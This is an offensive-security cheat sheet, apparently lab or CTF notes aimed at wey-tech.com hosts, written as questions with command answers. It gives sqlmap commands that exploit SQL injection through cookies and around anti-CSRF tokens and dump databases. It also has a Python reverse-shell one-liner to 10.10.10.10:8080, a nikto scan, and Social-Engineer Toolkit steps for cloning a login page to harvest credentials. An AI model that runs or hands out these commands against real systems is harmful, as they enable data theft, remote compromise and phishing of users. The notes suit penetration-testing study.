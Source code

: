 # Various Web Exploits

### Give an example of a sqlmap query to exploit SQLi on cookies:
```
sqlmap -u http://shop.wey-tech.com/account_api.php --cookie="session=c2deb0aa8a22efd8c8f74c3db021d6e9" --data='accountinfo=accountinfo' --threads 2 -p "cookie" --ignore-code 401 --level 5 --risk 3 --dbms=mysql -a
```
`a` will retrieve everything. If you don't want to do that and instead find the information incrementally to save time for what you're really after then use: `--dbs` to enumerate teh databases, then `--tables -D <db name>` to get the tables, then `-T users --dump` to dump the *users* tables for example.

### You have a gzip compressed data file and want to peep inside?
Try `zless` or `zcat`.

### What is a python payload for a reverse shell?
```
import os; os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.10.10.10/8080 0>&1\"'
```

### In what way can you try to trip up a web form that uses html tags in order to check syntax?
As an example case with `<input ... type='email'>`, you can inspect the tag and change the type to `text` and try submitting a single quote (`'`).

### How do you use sqlmap when the site has an anti-CSRF token mechanism?
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --csrf-url="http://personnel.wey-tech.com/validator.php" --csrf-token=token -v 6
```
If that doesn't work, you may need to use `eval` to write a custom python script.
```
sqlmap -u "http://personnel.wey-tech.com/application-check.php?applicantmail=blah&token=M" --eval "import urllib;page = urllib.urlopen('http://personnel.wey-tech.com/validator.php');token = urllib.quote(str(page.read()).decode('utf-8'));print(token)" -p applicantmail -v 1
```

### What tool helps detect web server versions and misconfigurations?
```
nikto -h http://mail.wey-tech.com
```
Nikto is an Open Source (GPL) web server scanner which performs comprehensive tests against web servers for multiple items, including over 6700 potentially dangerous files/programs, checks for outdated versions of over 1250 servers, and version specific problems on over 270 servers. It also checks for server configuration items such as the presence of multiple index files, HTTP server options, and will attempt to identify installed web servers and software. 

### What is a tool for social engineering?
```
sudo setoolkit
```
Use the following options for SET: 1) Social-Engineering Attacks , 2) Website Attack Vectors, 3) Credential Harvester Attack Method, 2) Site Cloner

Clone the login page http://join.wey-tech.com/wp-login.php

This will set up and clone the login page for join.wey-tech.com.

Note - Be sure you visit your local tun0 interface at http://10.2.4.2/ to ensure it's cloning the login page and not index. If so, close setoolkit and try again until it clones the login page.
